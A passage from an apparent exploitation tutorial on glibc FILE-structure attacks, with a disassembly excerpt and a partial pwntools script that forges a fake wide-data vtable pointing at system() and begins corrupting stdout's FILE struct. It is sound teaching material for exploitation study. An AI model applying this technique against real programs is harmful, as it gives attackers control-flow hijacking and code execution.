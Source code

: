 ```console
   0x00007ffff7e16b94 <+36>:    mov    rax,QWORD PTR [rax+0xe0]  # rax = fp->_wide_data->_wide_vtable
   0x00007ffff7e16b9b <+43>:    call   QWORD PTR [rax+0x68]  # calls function at offset 0x68 inside the _wide_vtable (of kind __doallocate, specifically _IO_wfile_doallocate since we are dealing with wide data)
```

> [!WARNING]
> Be careful when overwriting the `_IO_lock_t *_lock` field.
> The value needs to be a writable address that has NULL value

#### Example

Here is an example using `pwntools`

```py,hidelines=~
from pwn import *

elf = context.binary = ELF("/path/to/binary", checksec=False)
libc = elf.libc
~
~def start(argv=[], *a, **kw):
~    nc = "nc localhost 1337"
~    nc = nc.split()
~    host = args.HOST or nc[1]
~    port = int(args.PORT or nc[2])
~    if args.REMOTE:
~        return remote(host, port)
~    else:
~        args_ = [elf.path] + argv
~        if args.NA:  # NOASLR
~            args_ = ["setarch", "-R"] + args_
~        return process(args_, env=env, *a, **kw)


def aaw(addr, data):
    # Helper function to perform arbitrary address write
    pass


def aar(addr, data):
    # Helper function to perform arbitrary address write
    pass

~env = {}
io = start()

# Create overlapping fake _IO_wide_data struct and fake _wide_vtable @ bss+0x400
payload = b""
# doing this ensures both fp->_wide_data->_IO_write_base and
# fp->_wide_data->_IO_buf_base is set to NULL
payload = payload.ljust(0x68, b"\x00")
payload += p64(libc.sym["system"])  # _wide_vtable+0x68, which is also fp->_wide_data->_codecvt
payload = payload.ljust(0xe0, b"\x00")
payload += p64(elf.bss(0x400))  # fp->_wide_data->_wide_vtable

aaw(elf.bss(0x400), payload)

# Overwrite _IO_2_1_stdout_ vtable to call _IO_wfile_overflow
fs = FileStructure()
fs.flags = u32(b"dash")
fs.fileno = 1
fs._lock = libc.sym["_IO_stdfile_1_lock"]
fs._wide_data = elf.bss(0x400)
# 0x38 is the function offset inside vtable
```

[^no-read]: Default for `fopen(filepath, "r")` or achievable by `_flag & (~_IO_NO_READS)`
[^no-write]: Default for `fopen(filepath, "w")` or achievable by `_flag & (~_IO_NO_WRITES)` (`_IO_NO_WRITES = 0x8`)